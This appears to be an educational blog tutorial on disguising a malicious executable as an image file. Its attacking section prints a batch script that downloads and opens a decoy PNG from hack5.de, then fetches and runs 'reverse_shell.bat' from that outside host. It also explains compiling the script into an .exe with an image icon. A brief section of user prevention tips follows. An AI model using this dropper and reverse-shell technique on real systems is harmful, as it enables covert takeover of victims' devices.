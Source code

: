 # An Image Can Hack Your Device!

Usually when we think about malware, we surely speak about the usual file types that are typically associated with viruses or other malicious code lurking behind the scenes, like `.zip` and `.exe`.

What if I tell you that it is possible that even a simple image file, `.png`, `.gif`, `.jpg`, `.bmp` or whatever, can also equally compromise your entire system? Would you believe me?

Regardless of whether or not you trust the fact, here is a simple process on how to do it (and how to prevent it discussed later on).

## Disclaimer

The process shown below is for educational and private usage only. By reading this article any further, you agree to the term that any damages or criminal charges will be entirely your own responsibility. With that in mind, it is advised that you seek permission from or explicitly inform the person on whom you are going to try this trick.

This article only shows a basic technique that hackers may use to target victims. In the real world, things can be much more complicated (obviously).

## Attacking-Side

#### Windows OS

There is a Powershell command script that can download files from the internet without administrator privileges.

```bash
Invoke-WebRequest 'FILE_URL' -OutFile FILE_NAME.EXTENSION
```
We can also shove this command into a `.bat` (batch) file for easy execution on the victim's device. In order to do it, we can convert the script into `cmd` format.

Here is a sample `.bat` file that can download an image, launch it, and then download a malicious file and run it in the background. The files are downloaded in the `TEMP` directory, so it remains hidden from users by default.

```cmd
cd %TEMP%
Powershell -Command "Invoke-WebRequest 'https://hack5.de/assets/christmas.png' -OutFile christmas.png"
christmas.png
Powershell -Command "Invoke-WebRequest 'https://hack5.de/malware/reverse_shell.bat' -OutFile revsh.bat"
revsh.bat
```
But obviously hackers would not simply give you the batch file directly. Anyone can just open the file and read its lines of code. So, hackers would use a tool like a `BAT to EXE converter` to compile the batch file into an executable. And then they would disguise the `.exe` file's icon with the image.

So when you actually try to open the `christmas.png` file, you'd actually be running `image.exe` which would indirectly download the main image in the background and then open it up. From the victim's perspective, everything would seem fine - the image would open up as usual BUT there would also be a malicious script running in the background. It could be any sort of malware, from the least harmful (adware) to the most (ransomware). In our example, it would download and run a reverse shell program that allows a hacker to have full control over your device!

Sneaky and scary, right?

## Defensive-Side

Knowledge about hacking allows anyone to be aware of the dangers associated with a particular type of method that a malicious hacker would use. As a regular user, you should also know how to prevent this type of attack from happening in the first place.

My high school IT teacher would always state the following when discussing about cybersecurity :
> Prevention is better than cure

Even if you have a good antivirus, it may not always be able to detect or protect your device from harm. The greatest and also the weakest barrier between the evil hackers and your safety is YOU!


1. Never download files from unknown links or sources, especially email attachments from strangers.
2. Even after downloading a file, check its extension. Use an online tool like [VirusTotal](https://virustotal.com) to automatically and freely scan your file for you - with more than 20 various antivirus brands.
3. Monitor your activities from the Task Manager from time to time, although clever hackers and malware developers know how to hide their processes in the background.

Hackers' most prominent tactic of invading your system is by exploiting human emotions. Via "social engineering", they may pretend to be your friend or someone authentic and try to convince you to download  something or click on a link they send.

The endnote is this :
> If it's digital, it is hackable

Stay safe and good luck!
